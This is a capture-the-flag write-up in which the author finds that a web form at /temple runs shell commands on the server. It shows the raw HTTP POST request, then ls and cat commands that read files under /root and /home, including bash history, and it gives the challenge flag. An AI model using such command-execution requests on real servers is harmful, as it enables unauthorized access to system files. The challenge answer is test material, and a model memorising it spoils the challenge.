

# Information gathering
Entering the page the user is presented with a input field and here the first step was to enter a "list" command ```ls```.   


Request:
```http
POST /temple HTTP/1.1
Host: 64.227.121.142:6002
Content-Length: 10
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6002
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

command=ls
```


Response HTML snippet:
```html
<!-- Resultat -->
<pre class="p-3 bg-dark text-success rounded mt-4">bin
	etc
	home
	root
	var
	usr
	tmp
</pre>
```


So the input filed takes a UNIX command and executes it on the server.  
Next step is to see if the ```root``` directory is accessible to start looking for the flag.  
Request command parameter and response HTML snippet:  
```
ls root
```
```html
<!-- Resultat -->
<pre class="p-3 bg-dark text-success rounded mt-4">.bash_profile
.bashrc
.
ancient_curse.txt
.bash_history
admin_notes.txt
secret_key
..
.bash_history</pre>
```

Start by checking the ```ancient_curse.txt``` to find a fake flag. 
```
cat root/ancient_curse.txt
```
```
O24{almost_there_but_not_the_real_flag}
```


Start looking through files in the root:
```
cat root/admin_notes.txt
```
```
Remember to rotate all keys and check for unauthorized access attempts in the logs.
```

```
cat root/.bash_history
```
```
cd /etc
nano shadow
systemctl restart ssh
exit
```

No flag found.

```
whoami
```
```
explorer
```

```
ls home/explorer
```
```
README.md
.bash_history
clues.txt
```

```
cat home/explorer/clues.txt
```
```
cat: /home/explorer/clues.txt: No such file or directory
```

```
cat home/explorer/.bash_history
```
```
s -la
cd /home/anubis
cat notes.txt
grep 'treasure' /home/pharaoh/secret_scroll.txt
cd /root
cat ancient_curse.txt
echo 'This is not working'
find / -name '*flag*' 2>/dev/null
echo 'O24{command_of_the_pharaoh}' > found_it.txt  # OH! I found it!
rm found_it.txt  # Better remove this quickly
cd /var/log
grep 'suspicious' auth.log
cd /home/explorer
clear
exit
```

Here the flag is found:
```Flag:O24{command_of_the_pharaoh}```
